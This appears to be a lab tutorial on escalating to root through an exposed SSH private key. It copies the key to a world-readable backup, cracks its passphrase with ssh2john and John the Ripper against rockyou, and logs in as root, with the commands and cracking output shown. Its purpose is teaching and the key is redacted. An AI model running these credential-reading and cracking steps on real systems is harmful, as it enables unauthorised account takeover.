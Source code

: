 Let's create a backup of the private key (normally we wouldn't do this in a real machine):

```bash
root@pwn:~# cp /root/.ssh/id_rsa /var/backups && chmod 755 -R /var/backups
```

Switch to the user-privileged user, to simulate the adversary scenario:

```bash
user@pwn:~$ cat /var/backups/id_rsa 
-----BEGIN OPENSSH PRIVATE KEY-----
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
<SNIP>
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
-----END OPENSSH PRIVATE KEY-----

```

Once we find the private key we can read the file and add it to our adversary host.

Now we need to crack this key, to do that we must convert the SSH key into a format that John understands, for that we can use ssh2john.

Find where ssh2john is located, otherwise, download it.

```shell
❯ find / -name 'ssh2john.py' 2>/dev/null
/usr/share/john/ssh2john.py
```

Convert the private key to `John` crackable format:

```bash
/usr/share/john/ssh2john.py id_rsa > id_rsa.john
```

Attempt to crack the hash with JohnTheRipper, this may take a while:

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
passme           (id_rsa)
1g 0:00:04:52 DONE (2021-12-28 16:41) 0.003415g/s 63.16p/s 63.16c/s 63.16C/s sweetgurl..maria13
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Now we know the passphrase of the private key which is (`passme`) so we can attempt to log in.

In our adversary host we must add the correct permissions to the private key:

```bash
chmod 600 id_rsa
```

Finally, log in as the owner of the private key:

```bash
❯ ssh -i id_rsa root@10.10.10.14
Enter passphrase for key 'id_rsa': # <- passphrase here
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.11.0-43-generic x86_64)

<...SNIP...> 

root@pwn:~# whoami
root
root@pwn:~#
```

